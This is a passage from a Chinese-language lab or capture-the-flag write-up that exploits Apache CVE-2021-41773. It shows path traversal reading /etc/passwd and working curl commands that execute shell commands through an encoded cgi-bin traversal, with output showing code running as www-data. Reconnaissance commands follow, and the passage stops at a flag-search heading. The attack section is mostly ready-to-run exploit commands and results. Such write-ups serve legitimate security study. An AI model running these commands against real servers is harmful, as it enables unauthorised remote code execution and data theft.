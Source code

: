 **攻击结果分析**:

1. ✅ **`/icons/` 路径攻击成功**

   - **状态**: 🎉 完全成功 - 读取到完整的 `/etc/passwd` 文件
   - **编码方式**: 仅使用基础的单层URL编码 `%2e%2e`（不需要双重编码）
   - **技术意义**: 证明CVE-2021-41773不仅限于CGI路径，还影响Apache的静态资源映射
2. 🚫 **`/manual/` 路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: Manual文档路径可能有特殊的访问控制配置
   - **安全策略**: 表明某些路径映射有额外的安全限制
3. 🚫 **直接根路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: 根路径的路径遍历被Apache的基础安全机制阻止

##### 3.3 远程代码执行(RCE)攻击

###### 3.3.1 CGI路径的RCE攻击尝试

```bash
# 通过CGI路径执行shell命令
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```

**RCE攻击结果**:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**🎉 RCE攻击成功！**

- **权限获取**: 成功以 `www-data`用户身份执行命令
- **攻击方式**: 通过CGI路径结合路径遍历，直接调用系统shell
- **编码技术**: 使用混合编码 `.%2e`绕过路径限制

###### 3.3.2 系统信息收集

```bash
# 获取系统信息
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; uname -a"

# 查看当前目录
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; pwd"

# 列出根目录内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; ls -la /"
```

##### 3.4 Flag文件搜索与获取

###### 3.4.1 系统文件搜索
